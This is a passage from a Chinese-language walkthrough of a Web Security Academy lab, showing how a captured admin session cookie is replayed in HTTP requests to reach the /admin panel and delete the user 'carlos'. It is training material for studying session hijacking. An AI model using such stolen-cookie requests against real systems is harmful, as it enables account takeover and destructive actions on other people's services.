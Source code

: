 Step 4：随后我们直接访问复制会话 cookie 并使用它发送以下请求

```c
GET /admin HTTP/2
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
Cookie: session=hTi7sNuudeR99YHcsm3l3xa3zKDAWqEB
```

![img](assets/1706773318-f6ca2421993e0380c23ab21c4a5ab788.png)

Step 5：从上面我们可以看到成功利用 admin 的会话进入到控制面板中去，随后我们继续使用获取到的会话进行用户的删除操作

```c
GET /admin/delete?username=carlos HTTP/2
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
Cookie: session=hTi7sNuudeR99YHcsm3l3xa3zKDAWqEB
```

![img](assets/1706773318-f71b9b1a406bb1be39a63ad661764941.png)

Step 6：随后完成解题：

![img](assets/1706773318-0cbbc0eb9fbe15ecb4e287a3bee7f58c.png)
